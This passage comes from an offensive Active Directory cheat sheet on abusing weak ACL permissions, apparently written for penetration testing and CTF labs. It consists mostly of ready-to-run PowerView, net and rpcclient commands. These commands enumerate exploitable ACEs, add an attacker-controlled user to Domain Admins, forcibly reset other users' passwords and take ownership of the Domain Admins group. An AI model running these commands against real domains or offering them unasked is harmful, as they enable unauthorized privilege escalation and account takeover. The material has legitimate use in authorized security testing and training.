 ##### WriteProperty (Self-Membership)

```
// check for weak permissions
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}

// After find our user has SelfMembership & WriteProperty on admins group
net group "domain admins" spotless /add /domain
```

##### ForceChangePassword

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password

```
// check for weak permissions
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}

//reset user password with powerview:
Set-DomainUserPassword -Identity delegate -Verbose

// Another method that doesn't require fiddling with password-secure-string conversion
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose

// or a one liner if no interactive session is not available
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

//and one last way yo achieve this from linux
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

##### WriteOwner on Group

```
// Check for weak permissions
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}

// After that our user  has `WriteOwner` rights on `ObjectType:All` then Change domain admins group owner to our user with group SID

Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose

//You can also use the name instead of the SID (HTB: Reel)
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```

##### GenericWrite on User
